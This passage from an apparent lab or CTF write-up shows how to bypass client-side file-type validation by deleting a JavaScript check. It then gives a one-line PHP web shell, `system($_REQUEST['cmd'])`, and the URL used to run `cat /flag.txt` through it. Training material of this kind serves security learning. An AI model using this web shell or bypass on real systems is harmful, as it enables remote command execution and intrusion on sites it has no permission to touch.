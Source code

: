 ```js
    }
}
```
The key thing we take form this funtion is where it checks whether the file extension is a image, it print the error message we saw and disable the Upload button. We can add PHP as one of the allowed extensions or modify the funtion
to remove the extension check.
We do not need to gee into writing and modifying JS code. We can remove this funtion from the HTML code since its primary use appears to be file type validation, and removing it should not break anything.
> [!TIP]
> You may also do same to remove accept=".jpg, .jpeg, .png" which should make selecting the PHP shell ez in the file selection dialog, this isn't not mandatory.

CheckFile funtion removed form the file input, we should be able to select our PHP we shell through the file selection and upload  it normally with no validation.
The modification we made to the source code is temporary and will not persist through page refreshes, as we are only changing in the client-side. Only need is to bypass the client-side validation, so should be enough for this purpouse.

Exercise:
Try to bypass the client-side file type validations in the above exercise, then upload a web shell to read /flag.txt (try both bypass methods for better practice)

Payload:
First we must to inspect the code source and change the script.js:
```js
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8">
  <title>Employee File Manager</title>
  <link rel="stylesheet" href="./style.css">
</head>

<body>
  <script src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
  <script src="./script.js"></script>
  <div>
    <h1>Update your profile image</h1>
    <center>
      <form action="upload.php" method="POST" enctype="multipart/form-data" id="uploadForm" onSubmit="if(validate()){upload()}"> and remove validation()
        <input type="file" name="uploadFile" id="uploadFile" onChange="showImage()" accept=".jpg,.jpeg,.png"> --> add .php
        <img src='/profile_images/default.jpg' class='profile-image' id='profile-image'>
        <input type="submit" value="Upload" id="submit">
      </form>
      <br>
      <h2 id="error_message"></h2>
    </center>
  </div>
</body>

</html>
```
`<?php system($_REQUEST['cmd']); ?>` Upload the file and after that go to /profile_images/script.php?cmd=cat /flag.txt
